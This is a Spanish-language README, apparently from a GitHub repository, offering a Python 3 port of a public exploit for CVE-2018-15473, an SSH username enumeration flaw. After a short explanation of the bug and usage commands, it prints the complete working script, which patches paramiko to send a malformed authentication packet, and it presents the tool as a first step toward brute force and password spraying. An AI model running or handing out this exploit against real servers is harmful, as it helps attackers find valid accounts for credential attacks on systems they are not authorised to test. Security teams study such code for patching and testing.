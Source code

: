 # CVE-2018-15473 – Enumeración de usuarios SSH

## Información general

Este documento recoge la explotación de la vulnerabilidad **CVE-2018-15473**, que afecta al servicio SSH y permite enumerar usuarios válidos en un sistema remoto.  
El fallo se debe a la manera en que el servidor responde de forma diferente cuando el usuario existe o no durante el proceso de autenticación.

## Créditos

El exploit original fue desarrollado por **Matthew Daley, Justin Gardner y Lee David Painter**.  
Nuestra versión está **adaptada a Python 3** para que pueda ejecutarse en sistemas actuales sin necesidad de instalar Python 2.

## Contexto de la vulnerabilidad

Cuando realizamos una autenticación SSH, el servidor responde de forma distinta si el usuario no existe que si existe pero la clave es inválida. Esta diferencia en el flujo de mensajes permite realizar un ataque de enumeración de usuarios de manera remota.

Este tipo de vulnerabilidad se aprovecha en fases tempranas de un pentest, ya que conocer usuarios válidos nos ayuda posteriormente a realizar ataques de fuerza bruta, password spraying o a buscar credenciales filtradas en fuentes públicas.

## Dependencias

Antes de ejecutar el exploit debemos instalar `paramiko` en Python 3:

```bash
pip install paramiko
```

---

## Uso

La sintaxis básica es la siguiente:

```bash
python3 ssh_enum.py <target> -p <port> <username>
```

Ejemplo:

```bash
python3 ssh_enum.py 192.168.1.74 -p 22 root
```

- Si el usuario existe → `[+] root es un usuario válido
    
- Si el usuario no existe → `[-] root no es un usuario válido

---

## Script adaptado a Python 3

```python
#!/usr/bin/env python3
# CVE-2018-15473 SSH User Enumeration by Leap Security (@LeapSecurity) https://leapsecurity.io
# Original credits: Matthew Daley, Justin Gardner, Lee David Painter
# Adaptado a Python3 para compatibilidad y uso actual

import argparse, logging, paramiko, socket, sys, os

class InvalidUsername(Exception):
    pass

# malicious function to malform packet
def add_boolean(*args, **kwargs):
    pass

# function that'll be overwritten to malform the packet
old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[
        paramiko.common.MSG_SERVICE_ACCEPT]

# malicious function to overwrite MSG_SERVICE_ACCEPT handler
def service_accept(*args, **kwargs):
    paramiko.message.Message.add_boolean = add_boolean
    return old_service_accept(*args, **kwargs)

# call when username was invalid
def invalid_username(*args, **kwargs):
    raise InvalidUsername()

# assign functions to respective handlers
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = service_accept
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = invalid_username

# perform authentication with malicious packet and username
def check_user(username):
    sock = socket.socket()
    sock.connect((args.target, int(args.port)))
    transport = paramiko.transport.Transport(sock)

    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        print('[!] Fallo en la conexión SSH')
        sys.exit(2)

    try:
        transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
    except InvalidUsername:
        print(f"[-] {username} no es un usuario válido")
        sys.exit(3)
    except paramiko.ssh_exception.AuthenticationException:
        print(f"[+] {username} es un usuario válido")

# remove paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

parser = argparse.ArgumentParser(description='SSH User Enumeration by Leap Security (@LeapSecurity) - Adaptado a Python3 por Metahumo')
parser.add_argument('target', help="Dirección IP del sistema objetivo")
parser.add_argument('-p', '--port', default=22, help="Introduce puerto SSH")
parser.add_argument('username', help="Usuario que se quiere validar")

if len(sys.argv) == 1:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

check_user(args.username)
```

---
